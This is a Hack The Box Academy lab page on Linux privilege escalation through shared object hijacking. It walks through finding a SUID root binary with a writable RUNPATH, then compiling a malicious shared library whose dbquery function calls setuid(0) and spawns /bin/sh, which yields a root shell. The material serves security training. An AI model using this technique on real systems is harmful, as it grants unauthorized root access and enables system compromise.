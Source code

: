 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/51/section/476
// Platform Version: V1
// Module ID: 51
// Module Name: Linux Privilege Escalation
// Module Difficulty: Easy
// Section ID: 476
// Section Title: Shared Object Hijacking
// Page Title: Linux Privilege Escalation
// Page Number: 22
-->

# Shared Object Hijacking

**Module Name:** Linux Privilege Escalation **Page Number:** 22

#### LINUX PRIVILEGE ESCALATION

# Shared Object Hijacking

``` shell-session
htb-student@NIX02:~$ ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

``` shell-session
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

``` shell-session
htb-student@NIX02:~$ readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

``` shell-session
htb-student@NIX02:~$ ls -la /development/

total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```

``` shell-session
htb-student@NIX02:~$ ldd payroll

linux-vdso.so.1 (0x00007ffd22bbc000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
/lib64/ld-linux-x86-64.so.2 (0x00007f0c1330a000)
```

``` shell-session
htb-student@NIX02:~$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

``` shell-session
htb-student@NIX02:~$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

``` c
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
```

``` shell-session
htb-student@NIX02:~$ gcc src.c -fPIC -shared -o /development/libshared.so
```

``` shell-session
htb-student@NIX02:~$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```

# 

# 

#### Questions

####